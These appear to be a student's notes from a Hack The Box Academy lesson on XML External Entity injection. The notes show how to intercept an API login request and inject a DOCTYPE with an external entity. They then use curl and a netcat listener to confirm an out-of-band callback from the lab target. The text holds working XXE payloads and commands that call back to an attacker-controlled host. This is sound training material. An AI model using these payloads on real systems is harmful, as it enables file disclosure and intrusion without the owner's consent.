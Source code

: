 ```yaml
---
sticker: emoji//1f480
---
```

XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions. XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down. Our [Web Attacks](https://academy.hackthebox.com/module/details/134) module covers XXE Injection vulnerabilities in detail. It should be noted that XXE vulnerabilities affect web applications and APIs alike.

Let us assess together an API that is vulnerable to XXE Injection.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.

Suppose we are assessing such an application residing in `http://<TARGET IP>:3001`.

By the time we browse `http://<TARGET IP>:3001`, we come across an authentication page.

Run Burp Suite as follows.

```shell-session
smoothment@htb[/htb]$ burpsuite
```

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it.

Now let us try authenticating. We should see the below inside Burp Suite's proxy.

![image](https://academy.hackthebox.com/storage/modules/160/11.png)


```http
POST /api/login/ HTTP/1.1
Host: <TARGET IP>:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 111
Origin: http://<TARGET IP>:3001
DNT: 1
Connection: close
Referer: http://<TARGET IP>:3001/
Sec-GPC: 1

<?xml version="1.0" encoding="UTF-8"?><root><email>test@test.com</email><password>P@ssw0rd123</password></root>
```

- We notice that an API is handling the user authentication functionality of the application.
- User authentication is generating XML data.

Let us try crafting an exploit to read internal files such as _/etc/passwd_ on the server.

First, we will need to append a DOCTYPE to this request.

What is a DOCTYPE?

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document. A DOCTYPE declaration can also be used to define special characters or strings used in the document. The DTD is declared within the optional DOCTYPE element at the start of the XML document. Internal DTDs exist, but DTDs can be loaded from an external resource (external DTD).

Our current payload is:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```

We defined a DTD called _pwn_, and inside of that, we have an `ENTITY`. We may also define custom entities (i.e., XML variables) in XML DTDs to allow refactoring of variables and reduce repetitive data. This can be done using the ENTITY keyword, followed by the `ENTITY` name and its value.

We have called our external entity _somename_, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as `file://` to call internal files.

Let us set up a Netcat listener as follows.


```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Now let us make an API call containing the payload we crafted above.


```shell-session
smoothment@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
<p>Sorry, we cannot find a account with <b></b> email.</p>
```

We notice no connection being made to our listener. This is because we have defined our external entity, but we haven't tried to use it. We can do that as follows.


```shell-session
smoothment@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'

```

After the call to the API, you will notice a connection being made to the listener.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 54984
GET / HTTP/1.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

The API is vulnerable to XXE Injection.

# Question
---
![](Pasted image 20250219172306.png)

